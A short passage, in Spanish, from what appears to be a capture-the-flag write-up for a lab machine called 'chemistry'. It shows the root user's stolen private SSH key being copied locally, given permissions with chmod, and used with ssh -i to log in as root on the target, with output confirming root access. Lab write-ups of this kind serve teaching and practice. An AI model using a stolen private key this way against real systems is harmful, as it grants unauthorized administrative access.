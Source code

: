 Copiaremos la clave privada del usuario `root` en nuestro equipo local, le daremos los permisos correspondientes y procederemos a autenticarnos al equipo víctima con el usuario `root` haciendo uso de su clave privada.

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@10.10.11.38
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)
...[snip]...

Last login: Thu Jan 16 05:47:26 2025 from 10.10.16.5
root@chemistry:~# hostname
chemistry
root@chemistry:~# whoami
root
```
